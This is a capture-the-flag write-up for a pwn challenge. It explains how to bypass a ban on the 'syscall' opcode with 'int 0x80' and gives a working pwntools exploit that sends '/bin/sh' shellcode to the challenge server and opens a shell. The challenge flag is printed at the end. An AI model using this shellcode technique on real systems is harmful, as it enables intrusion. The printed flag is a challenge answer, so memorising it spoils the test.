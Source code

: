 # More than Shellcoding / Pwn



This pwn challenge provided you with a binary, you could supply arbitary shellcode to. After further investigation of the binary though, I noticed that the shellcode couldn't contain `0x0f05`, which is the opcode for the `syscall` instruction ...

I thought about other ways of interacting with the system and `int 0x80` came to my attention. It is a way of invoking syscalls on x86 (so 32 bit maschines), but still works on 64bit for backwards compatibility reasons. 

I pushed the string `/bin/sh` to the stack, moved its location into rdi and invoked the [execve syscall](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (11 in rax). It failed. I used `strace` to find out the error and got `Bad Address` as a reason. I looked more into `int 0x80` on x64 maschines and discovered, that the address may *still* only be 32 bit. So what now?

The Program text. Using `info proc mappings`in gdb I discovered a region in the program text that was readible and writable so  I wrote **/bin/sh** there, then zeroed out ebx and ecx (no argv/environment variables required) and made the syscall. 

We have a shell!

```python
#!/usr/bin/env python3
from pwn import *

context.arch = "amd64"
context.os = "linux"

# /bin/sh = 0068732f6e69622f

# Having to use 32 bit addresses, so lets write to global
# variables (program text)
SHELLCODE = """
mov rax,0x0068732f6e69622f
mov rbx,0x404000
mov [rbx],rax

mov edi,ebx
mov rax,11

xor ecx,ecx
xor edx,edx

int 0x80

xor rax,rax
inc rax
int 0x80
"""
byte_code = asm(SHELLCODE)
if b"\x0f\x05" in byte_code:
    print("Shellcode contains forbidden instruction")

print("Generated shellcode ...")


#p = process("./More_than_shellcoding")
p = remote("35.228.15.118", 1338)
p.readline()
p.sendline(byte_code)
p.interactive()

print("Done")
```



The flag: **VULNCON{Gu355_u_d0nt_n33d_th3_5y5c4ll_aft3r4ll}**